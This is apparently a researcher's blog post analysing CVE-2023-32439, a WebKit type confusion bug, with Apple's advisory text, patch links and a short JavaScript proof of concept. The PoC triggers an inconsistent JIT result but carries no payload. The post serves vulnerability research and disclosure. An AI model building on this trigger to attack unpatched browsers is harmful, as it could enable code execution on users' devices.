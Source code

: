 ```yaml
---
layout: post
title:  "Root Cause Analysis - CVE-2023-32439 Type Confusion in Webkit"
date:   2023-07-08 00:04:30 +0900
---
```


Sunjoo Park [@grigoritchy](https://twitter.com/grigoritchy)


2 weeks ago in 21 June 2023, Apple have updated new security patch for Webkit(CVE-2023-32439) in iOS 16.5 and Apple suspected this bug is used in the wild activly.

## Overview
```
Impact: Processing maliciously crafted web content may lead to arbitrary code execution. Apple is aware of a report that this issue may have been actively exploited.
Description: A type confusion issue was addressed with improved checks.
WebKit Bugzilla: 256567
CVE-2023-32439: an anonymous researcher
```


**Affected Version**: Safari 16.5 and below versions

**Issue Report**: <https://bugs.webkit.org/show_bug.cgi?id=256567>

**Patch Commit Log**: <https://github.com/WebKit/WebKit/commit/52fe95e5805c735cc1fa4d6200fcaa1912efbfea>


## Proof Of Concept
```js
const arr = [0];

function jitter() {
        for (let _ in arr) { // create EnumeratorNextUpdateIndexAndMode DFG node.
                return 0 in arr; // create HasIndexedProperty DFG node.
        }
}

function trigger() {
        let a = jitter(); // a == true
        for(let i = 0; i < 0x100000; i++) { 
                jitter(); // making hot jitter function until it generates FTL bytecode.
        }
        let b = jitter(); // b == 0

        if (a != b) {
            print("a != b");
        }
}

trigger();
```
